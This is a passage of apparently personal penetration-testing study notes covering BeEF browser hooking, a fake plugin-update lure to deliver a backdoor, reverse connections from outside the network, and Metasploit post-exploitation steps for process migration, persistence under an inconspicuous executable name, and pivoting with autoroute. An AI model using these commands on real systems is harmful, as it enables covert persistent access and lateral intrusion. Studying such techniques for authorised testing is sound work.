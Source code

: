 Once hooked you get all sorts of information on the target system including browser version, operating system, versions of capabilities (plugins) installed etc.

> It is easiest to deploy BeEF and run the commands when you are the MITM in the network. This will also allow us to hook **all** websites the user visits rather than just the one.

One example command we can use is to mimic a browser plug-in update to get the target to download and run a malicious backdoor.

#### Using the Above - Outside the Local Network

If you are using any of these attacks external to your local network, there's a few steps to configure to ensure:

1. Router must handle reverse connections
2. Use public IP vs Private IP of the router
3. Forward the targeted port of the router to the attacking machine in the local network

## Post Exploitation

The main part of launching a hack is not only to get access to a target PC, but get/find what's on the target and make sure that we can always get into the target. Another prime example on conducting a hack on a target PC, may not be to get to that exact machine, more so to get into the network that machine is connected to and find other resources (this is also known as pivoting).

### Maintaining Access

Once you have backdoored into a system, the backdoor connection is likely running on a process (similar to what you see in task manager on Windows), it's typically good practice to migrate the backdoor connection onto a process that is unlikely to be closed (eg, `explorer.exe`). If you are using metasploit for this, it's as easy as running `migrate [processID]`.

There's also other methodologies for maintaining access such as:

- Using veil-evasion (see [Creating Backdoors](#creating-backdoors))
- Use metasploit persistence to maintain the connection
- Use metasploit and veil-evasion together:
    1. Background your current meterpeter session `background`
    2. use a module in msfconsole `use exsploit/windows/local/persistance`
    3. `show options` to configure
    4. `set EXE_NAME browser` (or something inconspicuous)
    5. set the session you wish to place `set SESSION [no.]`
    6. use the EXE::Custom the inject veil backdoor (not service).
    7. `set EXE::Custom [path]`
    8. `exploit`

### Pivoting

Use the device you hacked, hack into other devices on the intranet. We can set up an autoroute to use metasploit on the infected target as if it was the source attacking device.

1. Upload any tools you need. (in metasploit) eg. Nmap
2. use autoroute (in metasploit)
3. `use post/windows/manage/autoroute`
4. `set subnet [subnet]` - Set the subnet to the first 3 dots then 0 ie. xx.xx.xx.0
5. `set session [id]` - Sets the session to run it on.
6. `exploit`
